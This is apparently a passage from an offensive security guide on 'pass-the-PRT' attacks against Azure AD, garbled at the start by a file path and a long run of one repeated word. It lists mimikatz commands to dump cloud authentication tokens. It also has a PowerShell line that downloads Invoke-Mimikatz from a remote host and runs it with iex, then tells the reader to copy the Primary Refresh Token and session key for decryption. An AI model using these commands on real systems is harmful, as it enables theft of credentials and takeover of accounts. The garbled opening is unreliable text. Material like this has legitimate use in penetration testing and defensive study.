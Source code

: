 vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlh
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
(Images from https://blog.netwrix.com/2023/05/13/pass-the-prt-overview)

<figure><img src="../../../.gitbook/assets/image (4) (1) (3).png" alt=""><figcaption></figcaption></figure>

**Copy** the part labeled **Prt** and save it.\
Extract also the session key (the **`KeyValue`** of the **`ProofOfPossesionKey`** field) which you can see highlighted below. This is encrypted and we will need to use our DPAPI masterkeys to decrypt it.

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>
